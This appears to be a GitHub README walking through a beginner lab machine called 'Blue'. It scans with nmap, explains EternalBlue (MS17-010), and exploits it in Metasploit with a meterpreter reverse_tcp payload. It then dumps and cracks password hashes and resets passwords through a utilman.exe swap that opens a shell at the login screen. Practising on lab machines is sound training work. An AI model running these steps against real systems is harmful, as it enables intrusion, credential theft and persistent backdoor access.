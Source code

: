 ![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/logo.png)

# Blue

This is the Fifth Box i tired.

Let's start with finding the `ip address` of `Blue`

## Scanning

You can use `netdiscover` to find the ip address of the `Blue' Machine :

```
netdiscover -r [yourip]/24

Check for the one with Vritual Machine names on it
```
Now let's do an `nmap` scan.

```
nmap -p- -A -T4 [Target IP]

```
Results:


![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/nmap.png)

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/nmap2.png)

We found these ports open:


- `135/tcp   open  msrpc        Microsoft Windows RPC`
- `139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn`
- `445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)`

Now after searching for this in google i found `eternal blue exploit` from [**Rapid7**](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)


![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/ms17-010.png)

And this is how you can use it :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/msexploit.png)

You can check for `eternalblue` exploits using tools like **Searchsploit**

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/searchsploit%20eter.png)

Now what is that :

```
Eternal Blue is an exploit that targets a vulnerability in the Windows implementation of the Server Message Block (SMB) protocol. SMB is a network file-sharing protocol that allows users to access files and printers on a local network.

The vulnerability, known as CVE-2017-0144, exists in the way Windows handles SMBv1 requests. Specifically, it affects the way Windows processes specially crafted SMBv1 packets that contain malicious code.

Here's a step-by-step breakdown of the exploit:

1. Initial Compromise: An attacker sends a specially crafted SMBv1 packet to a vulnerable Windows machine.
2. Buffer Overflow: The packet causes a buffer overflow in the Windows SMBv1 implementation, allowing the attacker to execute malicious code.
3. Shellcode Execution: The malicious code, known as shellcode, is executed in the context of the Windows kernel.
4. Kernel Mode Access: The shellcode gains access to the Windows kernel mode, allowing it to execute arbitrary code with elevated privileges.
5. Payload Delivery: The shellcode delivers a payload, such as malware or a backdoor, to the compromised machine.
6. Propagation: The malware can spread to other vulnerable machines on the network via SMB, creating a worm-like effect.
```
This is a manual way of exploiting this box using this [**Tool**](https://github.com/3ndG4me/AutoBlue-MS17-010).

But let's check if it's acutally vulnerable or not.

we can do that using this module :

`auxiliary/scanner/smb/smb_ms17_010`
```
$ msfconsole

$ msf5 > search eternalblue

$ msf5 > use 1

$ msf5 auxiliary(scanner/smb/smb_ms17_010) > options

$ msf5 auxiliary(scanner/smb/smb_ms17_010) >  set rhosts [blue ip]

$ msf5 auxiliary(scanner/smb/smb_ms17_010) > run

[it will check if the target machine is vulnerable to any smb - MS17-010]
```
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/msfchecksmb.png)

Yep, it is vulnerable to `ms17_010_eternalblue`

You can also check it by [**this**](https://github.com/3ndG4me/AutoBlue-MS17-010) script

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/etrnalbluchecker.png)

It say's `Target is not patched` so it's vulnerable.

## Exploitation

Now let's run `msfconsole`.

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/use%20exploit%20smb.png)

```
$ msf5 exploit(windows/smb/ms17 010 eternalblue) > options

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > set rhosts [blue ip]

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > set payload windows/x64/meterpreter/reverse_tcp

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > set lhost [your ip]

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > run

```
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/meterpretershell.png)

- We can dump the hashes using `hashdump` :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/hashdump.png)

- Take a screenshot :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/screenshot.png)


![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/Blue.png)

- Getting `shell` :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/authsystem.png)

Cracked the password :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/password%20crack.png)

We can also crash this machine by doing like this 

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/crash.png)

```
(I need to learn more about these things !)
```
I also tried a simple trick in where you can rename the `utilman.exe` to `utilman2.exe` & 
`cmd.exe` to `utilman.exe` present in the `system32` folder.

(Found this one [**Loi Liang Yang**](https://youtu.be/2v-mGf4_9-A?feature=shared) channel)

This give you access to `cmd prompt` from the `user login window` and you can easily change user's password using :
```
net user [username][password]
```

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/utilman.png)


```
5 Down 1 to go
```








